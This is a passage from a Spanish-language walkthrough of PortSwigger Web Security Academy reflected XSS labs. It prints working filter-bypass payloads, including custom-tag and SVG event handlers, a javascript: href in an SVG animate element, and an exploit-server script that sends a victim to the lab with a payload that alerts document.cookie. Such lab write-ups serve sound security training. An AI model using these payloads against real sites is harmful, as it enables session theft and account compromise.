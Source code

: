  ```
<xss id=x tabindex=1 onfocus=alert(1)>#x
 ```

![](img25.png)

Entonces ahora vamos a el **exploit server** y escribimos el siguiente payload.

```html
<script>
    document.location='https://ace51ff81f542d2f800b9fba009400af.web-security-academy.net/?search=<xss id=x tabindex=1 onfocus=alert(document.cookie)>#x';
</script>
```

Entonces Guardamos y enviamos a la victima.

![](img26.png)

Entonces vamos al home del laboratorio para verificar que lo completamos.

![](img27.png)

## 8. Lab: Reflected XSS with event handlers and href attributes blocked

Payload

```
<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text></a>
```

![](img28.png)

## 9. Lab: Reflected XSS with some SVG markup allowed

```
This lab has a simple reflected XSS vulnerability. The site is blocking common tags but misses some SVG tags and events.

To solve the lab, perform a cross-site scripting attack that calls the alert() function.
```

Payload

```html
<svg><animatetransform onbegin=alert(1)>
```

![](img29.png)

## 10. Lab: Reflected XSS into attribute with angle brackets HTML-encoded
